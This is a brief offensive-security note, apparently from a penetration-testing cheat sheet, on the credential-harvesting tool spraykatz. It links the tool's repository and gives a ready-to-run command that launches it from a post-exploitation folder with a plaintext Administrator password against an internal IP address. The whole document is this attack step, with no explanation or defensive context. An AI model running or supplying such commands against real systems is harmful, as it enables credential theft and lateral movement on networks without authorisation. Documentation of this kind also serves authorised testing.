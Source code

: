 # spraykatz



```bash
# https://github.com/aas-n/spraykatz

cd  /opt/post/spraykatz 
./spraykatz.py -u Administrator -p Password0- -t 10.10.10.20 
```

